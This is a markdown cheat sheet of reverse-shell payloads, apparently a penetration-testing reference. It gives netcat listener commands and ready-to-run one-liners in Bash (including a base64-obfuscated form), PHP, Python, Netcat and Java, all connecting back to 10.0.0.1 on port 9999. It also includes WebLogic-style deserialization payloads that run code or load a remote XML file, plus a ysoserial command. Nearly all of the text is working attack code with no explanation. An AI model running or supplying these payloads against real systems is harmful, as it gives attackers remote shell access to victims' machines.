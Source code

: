 # Various Reverse Shells
# Shell Listener
```
nc -lvp 9999
```
###
or
###
```
nc -A -l 9999
```
###

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###
###
```
echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash
```
###
#### Base64 Encoded
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
###
###
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","bash -i >& /dev/tcp/10.0.0.1/9999 0>&1"] as String[])
p.waitFor()
```
###
###
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###
###
```
com.tangosol.coherence.mvel2.sh.ShellSession('java.lang.Runtime.getRuntime().exec(new%20String%20[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"});')
```
###
###
```
com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://10.0.0.1/poc.xml")
```
###
#### Base64 Encoded Payload for Deserialization
```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```
###
